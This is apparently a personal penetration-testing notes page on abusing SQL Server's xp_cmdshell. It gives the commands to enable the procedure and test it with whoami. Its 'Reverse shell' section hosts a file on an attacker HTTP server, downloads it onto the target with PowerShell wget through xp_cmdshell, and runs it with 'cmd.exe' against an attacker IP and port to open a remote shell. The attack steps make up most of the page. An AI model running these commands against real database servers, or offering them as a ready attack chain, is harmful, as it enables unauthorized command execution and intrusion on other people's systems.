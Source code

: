 ```yaml
---
id: xp_cmdshell
aliases: []
tags:
  - Networking/Services/SQL
links: "[[SQL]]"
---
```


# xp_cmdshell

[xp_cdmshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
allows the execution of Windows command shell commands directly from the SQL
Server environment.

## Activation

**xp_cmdshell** is desabled by default

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Usage

Check if xp_cmdshell is enabled

```sh
EXEC xp_cmdshell 'whoami';
```

## Reverse shell

Simple [Python HTTP server](https://docs.python.org/3/library/http.server.html)
to serve a file from the attacker machine

```sh
sudo python3 -m http.server 80
```

Acquire the file served by the attacker from the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; wget http:{ip_address}/{file_name} -outfile {file_name}"
```

Execute the acquired file on the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; .\{file_name} -e cmd.exe {attacker_ip} {attacker_port}"
```
